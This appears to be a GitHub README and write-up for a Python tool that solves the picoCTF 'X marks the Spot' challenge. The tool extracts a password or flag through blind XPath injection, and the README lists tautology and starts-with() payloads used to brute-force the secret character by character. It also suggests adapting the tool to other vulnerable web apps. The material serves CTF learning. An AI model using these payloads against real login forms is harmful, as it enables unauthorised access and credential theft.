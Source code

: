 # XPATH-Injection-Password-finder
A tool using XPATH injections &amp; python to find the password of a user in the database. 
This tool is especially useful for blind XPATH injections!

This tool was wrote specifically for the picoCTF challenge 'X marks the Spot' however the code is simple and can be edited for 
to crack passwords on other web apps vulnerable to XPATH injections where we can use functions like starts-with(), count(), substring().

-----------------------------------------------------------------------
How it works

The vulnerable website is located at 'http://mercury.picoctf.net:53735'
and takes a username and a password. I orignally thought this was a SQL
injection but I was wrong.

If we enter with username:admin,password:admin
we get a login failed. I used BurpSuites proxy
to take this into the Repeater so I can easily send
accross expoits to see the result

We log in with a POST request and the data is in the form

name=admin&password=admin

If you enter a ' an error throws, nice.
'Internal Server Error'

If we enter 

name=' or '1'='1&pass=test (SUCCESS)

we get 'Your on the right path.' Great, this must be a blind SQL and all we get back is if the XPATH returns true or false
now, see if you follow my train of thoughts and hopefully understand how this works by the end of these conseutivve exploits

 name=' or 'x'='y&pass=test (FAIL)
 
 
 name' or 1=1 or 'x'='y&pass=test (SUCCESS) 
 
 
 name' or //*[starts-with(text(),'randomWord')] or 'x'='y&pass=test (FAIL)
 
 
 name' or //*[starts-with(text(),'picoCTF{')] or 'x'='y&pass=test (SUCCESS)
 
 
 name' or //*[starts-with(text(),'picoCTF{a')] or 'x'='y&pass=test (FAIL)
   .
   .
   .
name' or //*[starts-with(text(),'picoCTF{h')] or 'x'='y&pass=test (SUCCESS)


name' or //*[starts-with(text(),'picoCTF{ha')] or 'x'='y&pass=test (FAIL)
    .
    . 
    .
name' or //*[starts-with(text(),'picoCTF{h0')] or 'x'='y&pass=test (SUCCESS)
    
    
    
    basically you have to brute force each character and check if the new string exists in the data base (therefore will return true and add that character to the string now) or if it doesnt exist in the database it will return false and try the next character
 

